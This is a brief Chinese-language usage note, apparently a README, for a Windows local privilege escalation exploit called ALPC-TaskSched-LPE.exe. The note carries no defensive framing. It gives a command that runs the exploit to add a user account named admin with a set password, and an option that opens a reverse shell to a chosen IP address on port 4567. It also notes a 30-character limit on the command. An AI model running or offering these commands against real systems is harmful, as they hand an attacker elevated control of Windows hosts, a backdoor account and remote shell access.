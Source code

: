 随便写写大佬勿喷
ALPC-TaskSched-LPE.exe -e "net user admin 1234567@ /add"
这里我给限制成30个字符了懒得改了不改了要执行程序用全路径
ALPC-TaskSched-LPE.exe -g ip 反弹到ip的4567端口